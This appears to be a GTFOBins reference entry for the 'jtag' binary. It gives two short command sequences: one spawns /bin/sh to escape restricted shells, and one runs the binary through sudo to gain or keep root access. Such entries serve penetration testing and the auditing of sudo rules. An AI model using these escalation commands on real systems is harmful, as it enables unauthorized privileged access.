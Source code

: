 # GTFOBin: jtag

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
jtag --interactive
shell /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo jtag --interactive
shell /bin/sh
```